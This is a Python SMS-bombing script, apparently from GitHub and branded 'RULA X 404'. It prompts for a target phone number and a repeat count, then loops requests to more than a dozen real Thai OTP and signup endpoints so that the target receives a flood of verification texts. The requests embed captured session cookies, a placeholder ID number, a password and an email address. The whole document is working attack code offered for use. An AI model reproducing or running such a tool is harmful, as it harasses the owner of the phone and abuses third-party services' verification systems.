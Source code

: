 import requests
import os
os.system("clear")
print("""   

██████╗░██╗░░░██╗██╗░░░░░░█████╗░
██╔══██╗██║░░░██║██║░░░░░██╔══██╗
██████╔╝██║░░░██║██║░░░░░███████║
██╔══██╗██║░░░██║██║░░░░░██╔══██║
██║░░██║╚██████╔╝███████╗██║░░██║
╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝
██╗░░██╗
╚██╗██╔╝
░╚███╔╝░
░██╔██╗░
██╔╝╚██╗
╚═╝░░╚═╝
░░██╗██╗░█████╗░░░██╗██╗
░██╔╝██║██╔══██╗░██╔╝██║
██╔╝░██║██║░░██║██╔╝░██║
███████║██║░░██║███████║
╚════██║╚█████╔╝╚════██║
░░░░░╚═╝░╚════╝░░░░░░╚═╝""")
print("\033[91mSPAM SMS VIP #RULA X 404")
from requests import get
from requests import Session
from requests import post,Session
from threading import Thread
import colorama
phone = input("●0644193165:")
num = int(input("●500:"))
for i in range(num):
    requests.post("https://api.zaapi.co/api/store/auth/otp/login",json={"phoneNumber":f"+66{phone[1:]}","namespace":"zaapi-buyers"},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})
    print("\033[92mhttps://github.com/RULAX404")
    requests.post("https://topping.truemoveh.com/api/get_request_otp",data={"mobile_number": phone})
    print("\033[1;96m𝙍𝙐𝙇𝘼 𝙓 𝙉𝙐𝙈𝘽𝙀𝙍 𝙊𝙉𝙀")
    requests.post('https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp',headers = {"User-Agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","Cookie": "sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"},data=f"dCard=1358231116147&Mobile={phone}&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTER")
    print("\033[91m
██████╗░██╗░░░██╗██╗░░░░░░█████╗░
██╔══██╗██║░░░██║██║░░░░░██╔══██╗
██████╔╝██║░░░██║██║░░░░░███████║
██╔══██╗██║░░░██║██║░░░░░██╔══██║
██║░░██║╚██████╔╝███████╗██║░░██║
╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝
██╗░░██╗
╚██╗██╔╝
░╚███╔╝░
░██╔██╗░
██╔╝╚██╗
╚═╝░░╚═╝
░░██╗██╗░█████╗░░░██╗██╗
░██╔╝██║██╔══██╗░██╔╝██║
██╔╝░██║██║░░██║██╔╝░██║
███████║██║░░██║███████║
╚════██║╚█████╔╝╚════██║
░░░░░╚═╝░╚════╝░░░░░░╚═╝")
    requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
    print("\033[91mAPI4ทำงาน")
    requests.post("https://queenclub88.com/api/register/phone",data={" phone":phone})
    print("\033[91mFACEBOOK : Tle So Sad")
    requests.post("https://www.monomax.me/api/v2/signup/telno",json ={"password":"12345678+","telno": phone})
    print("\033[91mFACEBOOK : Tle So Sad ")
    requests.post("https://api2.1112.com/api/v1/otp/create",json={"phonenumber":phone,

        "language": "th"},headers={"accept": "application/json, text/plain, /",

       "user-agent": "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"})
    print("\033[91m𝙍𝙐𝙇𝘼 𝙓 𝙉𝙐𝙈𝘽𝙀𝙍 𝙊𝙉𝙀")
    requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.SignUp","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/signup/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}","Password":"098098Az","UserAttributes":[{"Name":"name","Value":"Dbdh"},{"Name":"birthdate","Value":"2005-01-01"},{"Name":"gender","Value":"Male"},{"Name":"phone_number","Value":f"+66{phone[1:]}"},{"Name":"custom:phone_country_code","Value":"+66"},{"Name":"custom:is_agreement","Value":"true"},{"Name":"custom:allow_consent","Value":"true"},{"Name":"custom:allow_person_info","Value":"true"}],"ValidationData":[]})
    print("\033[91m𝙍𝙐𝙇𝘼 𝙓 𝙉𝙐𝙈𝘽𝙀𝙍 𝙊𝙉𝙀")
    requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})
    print("\033[91m𝙍𝙐𝙇𝘼 𝙓 𝙉𝙐𝙈𝘽𝙀𝙍 𝙊𝙉𝙀")
    requests.post("https://topping.truemoveh.com/api/get_request_otp", data=f"mobile_number={phone}",headers={
    "Accept": "application/json, text/plain, /",
    "User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://topping.truemoveh.com/otp?callback=/campaign/104",
    "Cookie": "_ga=GA1.2.1205060554.1640098569; _gcl_au=1.1.1987856152.1640098570; wisepops=%7B%22csd%22%3A1%2C%22popups%22%3A%7B%7D%2C%22sub%22%3A0%2C%22ucrn%22%3A57%2C%22cid%22%3A%2237257%22%2C%22v%22%3A4%2C%22bandit%22%3A%7B%22recos%22%3A%7B%7D%7D%7D; wisepops_props=%7B%22userType%22%3A%22non-true%22%7D; _fbp=fb.1.1640098573194.360235747; wisp-https%3A%2F%2Fapp.getwisp.co-Ly7y=88ce9a24-a734-4ee0-a698-20f8eddb4942; _gac_UA-34289891-14=1.1640601367.Cj0KCQiA5aWOBhDMARIsAIXLlkfb9M64-nkR8u0vdLiqqAhHzV1TK-wuYhvA4nvc76GLMd_LvbDYizMaAruSEALw_wcB; ci_session=dbskqg6a8lqknf9n1cep0jb5vrrhkqdi; AWSELB=87C963610CC5C30592B0F71CAEE836AADF65AFF7868D84BE668BFDE38423D810F8497FAC88813163C52320060AF1A0D59D6D0AECF99D0389471FA83C1B90863201109E903015CCAF2CCBA3F11A5EDD799554400EE1; _gid=GA1.2.1638141276.1641466031; _gac_UA-41231050-25=1.1641466031.Cj0KCQiAw9qOBhC-ARIsAG-rdn5KaPC2N06d1nss7arDQn6S0_lOmvX71l8LKwV__iZpWisXEem-EP8aAjF2EALw_wcB; _gat=1; _gcl_aw=GCL.1641466031.Cj0KCQiAw9qOBhC-ARIsAG-rdn5KaPC2N06d1nss7arDQn6S0_lOmvX71l8LKwV__iZpWisXEem-EP8aAjF2EALw_wcB; _gcl_dc=GCL.1641466031.Cj0KCQiAw9qOBhC-ARIsAG-rdn5KaPC2N06d1nss7arDQn6S0_lOmvX71l8LKwV__iZpWisXEem-EP8aAjF2EALw_wcB; _gat_UA-41231050-25=1; wisepops_visits=%5B%222022-01-06T10%3A47%3A11.626Z%22%2C%222022-01-04T16%3A54%3A03.887Z%22%2C%222021-12-28T10%3A38%3A18.612Z%22%2C%222021-12-28T10%3A38%3A04.394Z%22%2C%222021-12-28T10%3A37%3A40.387Z%22%2C%222021-12-27T03%3A47%3A11.187Z%22%2C%222021-12-25T12%3A27%3A55.196Z%22%2C%222021-12-23T17%3A48%3A39.146Z%22%2C%222021-12-21T17%3A56%3A55.678Z%22%2C%222021-12-21T15%3A06%3A46.971Z%22%5D; wisepops_session=%7B%22arrivalOnSite%22%3A%222022-01-06T10%3A47%3A11.626Z%22%2C%22mtime%22%3A1641466036863%2C%22pageviews%22%3A2%2C%22popups%22%3A%7B%7D%2C%22bars%22%3A%7B%7D%2C%22countdowns%22%3A%7B%7D%2C%22src%22%3A%22https%3A%2F%2Fwww.google.com%2F%22%2C%22utm%22%3A%7B%22gclid%22%3A%22yes%22%7D%2C%22testIp%22%3Anull%7D"})
    print("เฟสบุ๊ค : Tle So Sad")
    requests.post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", json={"on":{"value": phone,"country":"66"},"type":"mobile"})
    print ("𝙍𝙐𝙇𝘼 𝙓 𝙉𝙐𝙈𝘽𝙀𝙍 𝙊𝙉𝙀")
    requests.post("https://m.lavagame168.com/api/register-otp",headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","referer": "https://m.lavagame168.com/dashboard/login"},json={"brands_id":"5ffc0caa4d603200124e4eb1","agent_register":"5ffc0d5cdcd4f30012aec3d9","tel": phone})
    print ("𝙍𝙐𝙇𝘼 𝙓 𝙉𝙐𝙈𝘽𝙀𝙍 𝙊𝙉𝙀")
    requests.post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP",json={
  "on": {
    "value": phone,
    "country": "66"
  },
  "type": "mobile"
},headers={"accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36","content-type":"application/json;charset=UTF-8"})
print ("***")
